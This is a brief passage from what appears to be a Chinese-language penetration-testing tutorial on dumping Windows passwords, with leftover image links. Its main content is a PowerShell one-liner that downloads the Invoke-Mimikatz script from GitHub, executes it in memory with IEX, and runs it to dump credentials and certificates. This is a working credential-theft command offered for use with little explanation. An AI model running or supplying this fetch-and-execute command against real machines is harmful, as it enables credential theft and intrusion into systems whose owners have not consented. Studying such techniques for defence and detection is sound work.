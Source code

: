 ![enter image description here](img/img5_u79_png.jpg)

## 0x04 Dump the plain Password

* * *

同样也可以用下面的方式(执行 powershell 版的 Mimikatz)获取明文。

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts 
```
